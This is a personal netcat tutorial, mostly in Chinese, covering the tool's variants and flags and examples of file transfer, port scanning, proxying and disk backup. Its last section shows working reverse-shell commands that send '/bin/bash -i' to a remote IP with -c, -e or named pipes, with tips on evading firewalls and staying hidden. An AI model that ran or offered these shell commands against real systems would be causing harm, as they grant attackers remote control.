


# Netcat

参考：

https://zhuanlan.zhihu.com/p/83959309

https://program-think.blogspot.com/2019/09/Netcat-Tricks.html

netcat - TCP/IP  "swiss army knife" .

Common users include：

-  simple TCP proxies
- shell-script based HTTP clients and servers
- network daemon testing
- a SOCKS or HTTP ProxyCommand for ssh(1)
- and much, much more

nc有很多的变种，有nc.traditional(GNU基础版)，nc.openbsd(openbsd版本)，netcat(nmap版，==通常叫做ncat==)。不同版本的nc是可以互通。

```
root in ~ λ whereis nc
nc: /bin/nc.openbsd /bin/nc /usr/share/man/man1/nc.1.gz
root in ~ λ readlink -f $(which nc)
/bin/nc.openbsd
```

我们可以通过`update-alternatives --config nc`来指定默认使用的nc

```
root in ~ λ update-alternatives --config nc
There is only one alternative in link group nc (providing /bin/nc): /bin/nc.openbsd
Nothing to configure.
```

安装nc.traditional

```
#安装nc.traditional
root in /tmp λ  apt -y install netcat/bionic;updatedb

#修改默认使用nc
root in /tmp λ update-alternatives --query nc
Name: nc
Link: /bin/nc
Slaves:
 nc.1.gz /usr/share/man/man1/nc.1.gz
 netcat /bin/netcat
 netcat.1.gz /usr/share/man/man1/netcat.1.gz
Status: manual
Best: /bin/nc.openbsd
Value: /bin/nc.traditional
```

## modes

nc有三种模式分别为：connect mode，listen mode，tunnel mode

- connect mode

  只针对客户端，客户端通过指定端口连接服务端

- listen mode

  只针对服务端，服务端监听端口连接

- tunnel mode

  一般用在代理，通过nc tunnel建立连接。==但是netcat数据不是加密的==

## parameter

- `-e`

  nc连接后执行本机的命令，必须以全路径表示

  nc.opensbsd没有改参数，但是可以使用具名管道符来达到此目的。

  ```
  nc 8.135.0.171 10086 -e '/bin/bash -i'
  ```

- `-c`

  nc连接后执行本机的命令，可以不用全路径(因为默认使用`/bin/bash -c`)

  nc.opensbsd没有该参数，但是可以使用具名管道符来达到此目的。

  ```
  nc 8.135.0.171 10086 -c 'bash -i'
  ```

- `-l`

  > 如果使用了`-l`参数，netcat会一直监听连接所以`-w`参数不生效

  nc.opensbsd

  表示nc监听，可以直接指定端口表示本地端口。也可以使用`-s`或`-p`指定端口。

  nc.traditional

  ==只表示监听，端口需要使用`-p`或`-s`指定。==

- `-n`

  不对域名做DNS解析

- `-p`

  指定netcat本地使用的端口

- `-s`

  如果有多IP，指定发送数据的IP

- `-v`

  输出详细内容

- `-u`

  ==使用udp协议，默认使用tcp。==openvpn默认使用udp建立连接，可以是使用该参数进行校验

- `-w`

  如果在服务端使用表示等待imcoming连接(==不算已经建立的连接==)的最长时间

  如果在客户端使用表示建立socket的最长时间

- `-X proxy_protocal`

  指定代理服务器使用的协议，默认使用SOCKS5

  5代表SOCKS5，4代表SOCKS4，connect代表HTTP

  nc.tranditional没有改参数

- `-x proxy_address:[port]`

  指定代理使用的地址

  nc.tranditional没有改参数

- `-z`

  一般用于端口扫描，不进行传输层连接。zero io only for scanning

- `-k`

  nc默认如果客户端主动与服务端断开连接(发送SIGINT)，服务端会自动断开。但是可以使用该参数【重复】接收客户端发送的连接。


## Example

> server nc.openbsd
>
> client nc.traditional
>
> 如果出现(UNKNOWN) [8.135.0.171] 10086 (?) : Connection refused
>
> 有可能由于nc版本不同，需要通过`-p`参数指定端口

### file transfer

参考：

https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/

```
#receiver
root in ~ λ nc -l -p 10086 >| ddos

#sender
root in /usr/local/\/go_ddos/DDoS on master λ nc 8.135.0.171 10086 < ddos.go
```

==客户端`-w`参数几乎没有什么意义，但是可以在客户端使用`timeout`来主动结束`nc`，不保证数据传输完毕==

```
#reciever
root in /home/ubuntu λ nc  10 -lp 10086 > file

#sender
cpl in ~ λ timeout -k 10 10 netcat 82.157.1.137 10086 < file1
```

> 如果将数据发送给另外一个进程，就不会在stdout中输出。

除次之外传输数据的时候还可以进行压缩，sender和receiver都需要有相应的压缩工具

```
#receiver
root in /home/ubuntu λ nc -lp 10086  | gzip -dc > file

#sender
cpl in ~ λ gzip -c 1 | nc 82.157.0.137 10086
```

也可以结合`pv`在传输过程中显示progress bar

```
#sender,stdout的内容被发送到了reciever，然后输出stderr内容
cpl in ~ λ pv file | nc 82.157.1.137 10086
 100 B 0:00:00 [1.67MiB/s] [==============================================================================>] 100%
 
#reciever
root in /home/ubuntu λ nc -w 10 -lp 10086 > file
```

### port scanning

```
root in /usr/local/\/go_ddos/DDoS on master λ nc -nvvz 8.135.0.171  80 443 22 10-100
(UNKNOWN) [8.135.0.171] 80 (http) open
(UNKNOWN) [8.135.0.171] 443 (https) open
(UNKNOWN) [8.135.0.171] 22 (ssh) open
```

### request

可以隐藏浏览器信息

```
root in ~ λ  echo -e "GET / HTTP/1.0\r\n"  | nc baidu.com 80
HTTP/1.1 200 OK
Date: Fri, 26 Feb 2021 05:47:17 GMT
Server: Apache
Last-Modified: Tue, 12 Jan 2010 13:48:00 GMT
ETag: "51-47cf7e6ee8400"
Accept-Ranges: bytes
Content-Length: 81
Cache-Control: max-age=86400
Expires: Sat, 27 Feb 2021 05:47:17 GMT
Connection: Close
Content-Type: text/html

<html>
<meta http-equiv="refresh" content="0;url=http://www.baidu.com/">
</html>
```

### throughput

nc还可以用于测试网络的吞吐量

```
#server
root in /tmp λ nc -lvv -p 10086 >/dev/null
listening on [any] 10086 ...
115.197.191.90: inverse host lookup failed: Unknown host
connect to [172.19.124.44] from (UNKNOWN) [115.197.191.90] 1220
 sent 0, rcvd 8608400

#client
root in /etc/apt λ time nc 8.135.0.171 10086 < /dev/zero
^C
nc 8.135.0.171 10086 < /dev/zero  0.00s user 0.01s system 0% cpu 4.921 total
```

### backup 

```
#recv  
nc -l -p xxx| dd of=/dev/sdb

#send 
dd if=/dev/sda | nc x.x.x.x xxx 
```

### proxy

nc会通过5566端口访问baidu的80端口，由于管道符的单向性只会将内容显示在proxy(代理端)

```
#proxy
root in /opt λ nc -lk -p 5566 | nc baidu.com 80

#client
root in /opt λ echo -e "GET / HTTP/1.0\r\n" | nc localhost 5566 

----
#tcpdump
root in /usr/local/\/go_ddos λ tcpdump -i eth0 -vv host baidu.com
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
15:36:57.958760 IP (tos 0x0, ttl 64, id 63109, offset 0, flags [DF], proto TCP (6), length 57)
    192.168.80.200.44276 > 220.181.38.148.http: Flags [P.], cksum 0x14e6 (incorrect -> 0xa59e), seq 3534764453:3534764470, ack 389173517, win 64239, length 17: HTTP, length: 17
	GET / HTTP/1.0
	
15:36:57.958887 IP (tos 0x0, ttl 128, id 65511, offset 0, flags [none], proto TCP (6), length 40)
    220.181.38.148.http > 192.168.80.200.44276: Flags [.], cksum 0x7e60 (correct), seq 1, ack 17, win 64206, length 0
    
----
#proxy
root in ~ λ nc -l -p 5566 | nc baidu.com 80
HTTP/1.1 200 OK
Date: Sun, 28 Feb 2021 04:56:29 GMT
Server: Apache
Last-Modified: Tue, 12 Jan 2010 13:48:00 GMT
ETag: "51-47cf7e6ee8400"
Accept-Ranges: bytes
Content-Length: 81
Cache-Control: max-age=86400
Expires: Mon, 01 Mar 2021 04:56:29 GMT
Connection: Close
Content-Type: text/html

<html>
<meta http-equiv="refresh" content="0;url=http://www.baidu.com/">
</html>
```

==可以使用named pipe具名管道符将请求的内容显示在被代理端==。具名管道符可以解决匿名管道符单向性和进程交互的问题(类似于高级编程语言中的channel)。

```
#proxy，使用管道符就是为了保证io通道不断开，这里nc server会将内容同步给nc client
root in /tmp λ if test -p pipe ;then :; else mkfifo piep;fi
root in /tmp λ nc -l -p 10086 < pipe | nc baidu.com 80 > pipe
等价
root in /tmp λ cat pipe | nc -l -p 10086 | nc baidu.com 80 > pipe

#client
root in ~ λ echo -e "GET / HTTP/1.0\r\n" |  nc  localhost 10086
HTTP/1.1 200 OK
Date: Sun, 28 Feb 2021 05:03:39 GMT
Server: Apache
Last-Modified: Tue, 12 Jan 2010 13:48:00 GMT
ETag: "51-47cf7e6ee8400"
Accept-Ranges: bytes
Content-Length: 81
Cache-Control: max-age=86400
Expires: Mon, 01 Mar 2021 05:03:39 GMT
Connection: Close
Content-Type: text/html

<html>
<meta http-equiv="refresh" content="0;url=http://www.baidu.com/">
</html>
```

flowchart




如果使用的是nc.openbsd还可以使用`-X`和`-x`参数

```
root in ~ λ echo -e "GET / HTTP/1.0/r/n" | nc -X connect -x 107.23.228.234:3128 -v baidu.com 443
Connection to baidu.com 443 port [tcp/https] succeeded!
HTTP/1.1 302 Moved Temporarily
Server: bfe/1.0.8.18
Date: Sun, 28 Feb 2021 07:54:02 GMT
Content-Type: text/html
Content-Length: 161
Connection: close
Location: http://www.baidu.com/error.html

<html>
<head><title>302 Found</title></head>
<body bgcolor="white">
<center><h1>302 Found</h1></center>
<hr><center>bfe/1.0.8.18</center>
</body>
</html>
```

### reverse shell

> 可以结合nohup 和 coproc 进一步增加隐蔽性和可用性

**positive / attacker主动建立连接**

这种方式会受target的防火墙的影响(防火墙可以配置禁止对外监听端口)。同时因为在建立TCP连接前target会一直监听，也会增加reverse shell暴露的风险。

```
#target，target将自己的shell反弹给attacker
root in ~ λ nc -l -p 10086 -c '/bin/bash -i 2>&1'

#attacker，主动建立连接
root in /etc/apt λ nc 8.135.0.171 10086

#attacker
root in /etc/apt λ nc 8.135.0.171 10086                       
root@ubuntu18:~# pwd
pwd
/root
root@ubuntu18:~# 

```

没有建立ESTABLISHED连接之前，可以在监听的端口中查看到

```
root in ~ λ ss -ltp | grep 10086
LISTEN   0         1                   0.0.0.0:10086             0.0.0.0:*       users:(("nc",pid=10880,fd=3))
```

使用`w`同样也可

```
root in ~ λ w
 16:19:15 up 22:19,  3 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    115.233.222.34   15:57    3:44   0.33s  0.00s nc -lk -p 10086
root     pts/1    115.233.222.34   16:16    0.00s  0.10s  0.00s w
cpl      pts/3    115.233.222.34   14:45    1:30m  0.07s  0.07s -zsh
```

**passive / attacker被动建立连接**

attacker和target可以互换，让attacker充当nc服务端。这种方式的优点是，target无需显示的开启监听，==不受防火墙和NAT的影响。==

```
#attacker，被动建立连接
root in ~ λ nc -lk -p 10086

#target，将自己的shell反弹给attacker
root in /tmp λ nc 8.135.0.171 10086 -c '/bin/bash -i 2>&1'

#attacker

Sun 28 Feb 2021 01:22:31 PM CST

 ┌─────(6 root)─────(/tmp)
 └> $ pwd
pwd
/tmp

```

这种方式target不监听，但是可以在ESTABLISHED中查看，增加了reverse shell隐蔽性。

```
root in /etc/apt λ ss -ltp   
State           Recv-Q          Send-Q                   Local Address:Port                          Peer Address:Port          Process                                      
LISTEN          0               128                            0.0.0.0:ssh                                0.0.0.0:*              users:(("sshd",pid=1102,fd=3))              
LISTEN          0               244                          127.0.0.1:postgresql                         0.0.0.0:*              users:(("postgres",pid=1368,fd=4))          
LISTEN          0               80                           127.0.0.1:mysql                              0.0.0.0:*              users:(("mysqld",pid=1319,fd=20))           
LISTEN          0               128                               [::]:ssh                                   [::]:*              users:(("sshd",pid=1102,fd=4))              
LISTEN          0               244                              [::1]:postgresql                            [::]:*              users:(("postgres",pid=1368,fd=3))          
LISTEN          0               511                                  *:http                                     *:*              users:(("apache2",pid=6759,fd=4),("apache2",pid=6758,fd=4),("apache2",pid=6757,fd=4),("apache2",pid=6756,fd=4),("apache2",pid=6755,fd=4),("apache2",pid=1504,fd=4))

root in /etc/apt λ ss -tp | grep 10086
ESTAB 0      0      192.168.80.200:46410  8.135.0.171:10086 users:(("bash",pid=7504,fd=2),("bash",pid=7504,fd=1),("bash",pid=7504,fd=0),("sh",pid=7503,fd=2),("sh",pid=7503,fd=1),("sh",pid=7503,fd=0))
```

==由于nc.openbsd没有`-e`或`-c`参数所以需要使用具名管道符。来实现reverse shell==

```
#server，只会将结果发送给pipe或是nc client两者之一
#第一次先将bash prompt发送给nc client
#随后收到nc client的命令传给pipe，bash读取pipe内容执行返回给nc client
root in /tmp λ cat pipe | bash -i 2>&1 | nc -l -p 10086 > pipe
#等价
root in /tmp λ bash -i 2>&1 < pipe | nc -l -p 10086 > pipe

#client
root in ~ λ nc 8.135.0.171 10086
root@ubuntu18:/tmp# ls
ls
AliyunAssistClientSingleLock.lock
bash
CmsGoAgent.pid
_MEIM3fcpz
pipe
systemd-private-e8db9b6344cd44dab469a9dc4418af69-apache2.service-uCdsZV
systemd-private-e8db9b6344cd44dab469a9dc4418af69-chrony.service-SvSjRc
systemd-private-e8db9b6344cd44dab469a9dc4418af69-systemd-resolved.service-qO23qK
root@ubuntu18:/tmp# 
```

测试，只会发送给pipe或nc client两者之一

```
#server
root in /tmp λ ls | nc -l -p 10086 > pipe
root in /tmp λ cat pipe

#client
root in /etc/apt λ nc 8.135.0.171 10086
AliyunAssistClientSingleLock.lock
CmsGoAgent.pid
pipe
pp
systemd-private-ec12ca395b2146af94778c470c5409e3-apache2.service-cl58WH
systemd-private-ec12ca395b2146af94778c470c5409e3-chrony.service-FKTalK
systemd-private-ec12ca395b2146af94778c470c5409e3-systemd-resolved.service-Vvvc0
```

flowchart




